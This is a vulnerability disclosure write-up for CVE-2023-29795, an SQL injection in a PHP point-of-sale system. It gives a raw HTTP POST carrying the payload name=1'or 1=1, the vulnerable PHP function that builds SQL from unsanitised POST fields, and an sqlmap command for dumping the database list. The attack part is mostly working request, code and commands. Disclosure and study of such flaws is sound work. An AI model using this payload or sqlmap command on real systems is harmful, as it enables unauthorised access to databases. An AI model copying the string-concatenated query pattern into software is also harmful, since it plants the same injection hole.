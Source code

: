 # CVE-2023-29795

Download sourcecode from https://www.sourcecodester.com/php/16127/best-pos-management-system-php.html

Deploy the system

The sql injection url: http://172.31.171.96/kruxton/ajax.php?action=save_category Vulnerability trigger parameter: name(post parameter)

The http message is 

```
POST /kruxton/ajax.php?action=save_category HTTP/1.1
Host: 172.31.171.96
Content-Length: 16
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: null
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=trdjs8jl8md348msi4p8aq5tu9
Connection: close

name=1'or 1=1%2
```

sourcecode:

```php
	function save_category(){
		extract($_POST);
		$data = "";
		foreach($_POST as $k => $v){
			if(!in_array($k, array('id')) && !is_numeric($k)){
				if(empty($data)){
					$data .= " $k='$v' ";
				}else{
					$data .= ", $k='$v' ";
				}
			}
		}
		$check = $this->db->query("SELECT * FROM categories where name ='$name' ".(!empty($id) ? " and id != {$id} " : ''))->num_rows;
		if($check > 0){
			return 2;
			exit;
		}
		if(empty($id)){
			$save = $this->db->query("INSERT INTO categories set $data");
		}else{
			$save = $this->db->query("UPDATE categories set $data where id = $id");
		}

		if($save)
			return 1;
	}
```

![](https://github.com/paiqian/kruxton/blob/main/static/image-20230311161649893.png)

sqlmap command: 

```
sqlmap -u http://172.31.171.96/kruxton/ajax.php?action=save_category --data "name=1" --batch --dbs
```

inject result: 

![](https://github.com/paiqian/kruxton/blob/main/static/image-20230311164750182.png)

![image-20230311164806021](https://github.com/paiqian/kruxton/blob/main/static/image-20230311164806021.png)
